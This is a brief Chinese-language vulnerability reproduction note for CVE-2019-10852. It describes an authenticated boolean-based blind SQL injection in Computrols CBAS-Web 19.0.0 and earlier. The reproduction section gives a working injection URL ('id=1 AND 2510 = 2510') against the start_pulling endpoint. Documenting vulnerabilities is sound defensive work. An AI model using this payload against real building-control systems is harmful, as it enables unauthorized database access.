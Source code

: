 # CVE-2019-10852 Computrols CBAS Web SQL注入

## 一、漏洞简介

Computrols CBAS-Web经过身份验证的基于布尔的盲SQL注入

## 二、漏洞影响

19.0.0及以下

## 三、复现过程


```bash
http://url/cbas/index.php?m=servers&a=start_pulling&id=1 AND 2510 = 2510
```